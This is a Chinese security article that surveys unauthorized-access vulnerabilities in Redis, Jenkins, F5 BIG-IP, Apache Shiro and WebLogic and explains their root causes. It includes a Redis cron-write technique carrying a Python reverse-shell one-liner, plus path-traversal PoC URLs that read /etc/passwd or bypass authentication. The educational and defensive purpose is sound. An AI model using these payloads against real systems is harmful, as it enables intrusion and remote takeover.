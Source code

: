> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/GZPjz_sc2Bb1SmelMItqcA)

> **来自公众号：信安之路**
> 
> 本文作者：Z1NG（信安之路核心成员）

近来看到不少未授权访问漏洞，心想把这一块的几个漏洞归纳起来看看。未授权访问漏洞造成的危害可大可小，无论是数据库服务、或者像 Weblogic 这种大型中间件都曾出过未授权访问漏洞。本文鉴于前人对每个漏洞的分析十分详细，在此仅简单归纳几个未授权访问漏洞，未进行具体的代码分析，有兴趣的可以根据链接查看分析原文。  

漏洞简介
----

未授权访问漏洞通常由于系统配置不当、无认证或无健全的认证机制所导致的。攻击者可利用该漏洞，使用低权限，甚至不需要基础权限即可访问特定的功能服务和使用高权限的功能，本质上是一种越权漏洞。

### 常见未授权访问漏洞实例

#### Redis 未授权访问漏洞

Redis 未授权访问漏洞可以说是老生常谈了。未配置密码登录的 Redis，默认监听在 6379 端口，可以直接被连接。由于 Redis 数据格式会存在 “脏数据”，通常在实际利用中，通过写入 crontabl、ssh key 等此类具有容错性的文件来完成 RCE。也可以通过 Redis 的主从复制机制来完成 RCE，此处不赘。

通过写文件完成 RCE 的方式如下：

```
127.0.0.1:6379> config set dir /var/spool/cron/crontabs
OK
127.0.0.1:6379> config set dbfilename root
OK
127.0.0.1:6379> get 1
"\n* * * * * /usr/bin/python -c 'import socket,subprocess,os,sys;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.0\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n"
127.0.0.1:6379> save
OK
```

jenkins 未授权访问漏洞  

jenkins 默认安装下未设置验证密码，导致访问默认的 8080 端口可以进入 Web 的管理页面。而利用其自带的 “脚本命令” 功能，即可完成 RCE。比较简单，具体如何利用参考一下网上文章。

> https://blog.51cto.com/13770310/2156663

#### CVE-2020-5902 F5-BIG-IP 未授权 RCE

PoC 如下：

```
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

具体的分析可以看 360CERT 的分析文章  

> https://www.anquanke.com/post/id/210706

5-BIG-IP 服务通过 Apache2 + Tomcat ajp 的方式运行。问题出在 Apache2 和 Tomcat 对 URL 处理的方式不一致，导致特定的 URL 可以绕过验证。更具体的来说，应该是 Tomcat 的 parsePathParameters 方法中认为 ";" 具有特殊意义的，并且在后续的 normalize 方法中会删除 "../"，并且返回上层目录, 于是造成了未授权访问漏洞。

```
Apache传递给Tomcat                   => /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
Tomcat的parsePathParameters方法处理后  => /tmui/login.jsp/../tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
Tomcat的normalize方法处理后            => /tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

引用 360CERT 文章中的两张图。  

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAffr0ick4XPLkiakIDbQP4d9azL5USkQF4lS55FiblibQmh0ia4upE71iamrCMLhnyDSaiaibZ2T0NAtslGgog/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAffr0ick4XPLkiakIDbQP4d9azfAgMvSQ27Nuz878WMjdGqlvVhO124ZEE3icnVU8aWuDOZXdxiaXsTnyg/640?wx_fmt=png)

#### CVE-2020-1957 Shiro 未授权访问

PoC 如下：

```
/xxxxx/..;/admin
```

具体的分析可以看先知上的分析文章  

> https://xz.aliyun.com/t/8281

Shiro 是利用 Java web 的 filter 实现鉴权，因此一个请求会先经过 Shiro 处理。在 Shiro 的处理过程中，会截断 “；” 后面的内容，虽然 Payload 的形式与 F5 的漏洞一样，但具体流程不太相同。将 “；” 处理后，Shiro 会与配置中的过滤器进行比对。而通过校验后再传入 Spring 之中，在 Spring 的处理流程下，和 Tomcat 一样，删除 “;” 和删除 “../” 并返回上一级目录。

```
进入Shiro处理  => /xxxxx/..;/admin
Shiro截断；=> /xxxx/..
与过滤器匹配失败,认定无需鉴权传入Spring之中
Spring处理     => /xxxxx/..;/admin
         =>/admin
```

Shiro 还存在着另外两种绕过方式，分别为`/admin/%20`和`http://127.0.0.1:8080/admin/%2e`。该流程会比 CVE-2020-1957 相对复杂一些，第一种是由于 /admin/%20 与 /admin/* 进行匹配时会失败，接着 **tokenizeToStringArray** 方法在 **trimTokens** 参数为 true 的情况下会清除掉空格，而后再次来到 **getChain** 方法会删除掉最后的 “/”，导致 /admin/* 与 /admin 匹配失败，绕过了验证。通体来说这两种绕过的方式，是 Shiro 在处理 URL 时的逻辑问题。  

```
doMatch  => "/admin/*","/admin/%20不匹配
tokenizeToStringArray => 删除空格（%20）
getChain => 删除 “/”
doMatch => "/admin/*","/admin"不匹配
```

更多细节分析参看 seebug 的文章  

> https://paper.seebug.org/1478/#0x03-poc。

#### CVE-2020-14882 Weblogic 未授权访问漏洞

PoC：

```
/console/css/%252e%252e%252fconsole.portal
urldecode后
/console/css/../console.portal
```

具体分析可查看 Freebuf 文章  

> https://www.freebuf.com/vuls/254408.html

从 PoC 出可以看出又是 “../” 进行目录跨越，通过这个漏洞注意到的是，静态资源文件是不参与鉴权，如果能通过某种奇技淫巧来让程序误以为访问的是静态资源，而实际上是访问需要权限的页面，那么就会造成未授权的访问。在 weblogic 中，无需参与鉴权的文件会引入一个 map 之中，引用一张文章里的图片。PoC 正是利用了 css 不参与鉴权的特点。

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAffr0ick4XPLkiakIDbQP4d9azMCvMvSvxWGLuGNvurJsrX0fYAqqMF2D3k7bFNShTA0pnJygtGvibRpg/640?wx_fmt=png)

### 总结

未授权访问漏洞的案例有很多，此处仅列出了 5 个，做个小总结。

#### 程序默认配置可能存在隐患

正如本文 Redis、jenkins，默认配置并未配置密码，并且如若服务部署在公网 IP 上，且未对来源 IP 进行过滤，那么很可能造成安全事故。诸如此类的还有像 Docker API, mongodb 等服务，还有近期爆出的 Nacos 未授权访问的问题，默认的 User-agent 可以绕过鉴权，就像默认密码一样。

#### 应用程序的解析差异可能会造成问题

这个问题和 HTTP 参数污染一样，不同的容器解析机制不同，未能正确处理 URL 的话可能会造成绕过。

#### 程序自身逻辑可能导致绕过

比如 Weblogic 未授权访问，还有 Shiro 的第二种绕过方式，都是因自身的逻辑问题。Web 应用中的静态

资源是一个可以关注的地方，可以在此寻找借助静态资源访问路径加上特殊构造的方式来绕过鉴权。

#### 向各个接口发送不带 cookie 的请求包可能会有惊喜

可以借鉴 Vcenter 未授权访问漏洞作者的挖掘方法

> 通过采用了黑盒测试和白盒测试方法，专注于无需授权即可利用的漏洞。我尝试通过 Web 面板发送尽可能不同的请求且全部都没有 cookie 标头。

可以看看代码卫士翻译的文章

> [https://mp.weixin.qq.com/s/GRbtvk97QLaTnDDQIA_2vA](https://mp.weixin.qq.com/s?__biz=MzI2NTg4OTc5Nw==&mid=2247501665&idx=1&sn=8fc16a9ed2e40bcad4be0c0f674d9b07&scene=21#wechat_redirect)

**推荐↓↓↓**

![](https://mmbiz.qpic.cn/mmbiz_jpg/NVvB3l3e9aG5kWic5P8XOwFOhXKjibAt6Yfb1QuqSRZaV5QGHtqqXZFWkia50TDjpWTBqG8Huj3aMlA6cOE9cBVkQ/640?wx_fmt=jpeg)

**Linux 学习**